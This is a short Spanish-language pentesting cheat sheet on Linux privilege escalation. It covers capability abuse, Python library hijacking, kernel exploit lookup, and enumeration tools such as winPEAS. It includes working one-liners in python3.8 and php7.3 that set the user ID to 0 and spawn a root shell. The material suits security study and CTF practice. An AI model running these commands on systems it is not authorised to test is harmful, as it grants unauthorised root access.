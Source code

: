 [Capabilities](https://www.incibe-cert.es/blog/linux-capabilities)

En la anterior página tenemos información sobre la escala de privilegio a traves de las Capabilities, algunos comandos son:

```bash
getcap -r / 2>/dev/null #Reconocimiento de capas
python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
php7.3 -r "posix_setuid(0); system('/bin/bash');"
```
## PATH Hijacking / Library Hijacking

Para escalar privilegios debemos buscar algunas librerias de python que tienen esta vulnerabilidad, como se muestra en la siguiente página
[Python Hijacking](https://medium.com/analytics-vidhya/python-library-hijacking-on-linux-with-examples-a31e6a9860c8)

## Abuso del Kernel para escalar privilegios

Para esta escala de privilegios debemos saber la version de kernel de la máquina y buscar una vulnerabilidad ya sea en searchexploit entre otros.

```bash
uname -a
```

# Reconocimiento del sistema

Es recomendable hacer un reconocimiento de nuestro sistema, la siguiente herramienta nos ayuda a reconocer el sistema Linux, en cuanto a Windows tenemos winPEAS.

[Windows](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)

[Linux](https://github.com/diego-treitos/linux-smart-enumeration)
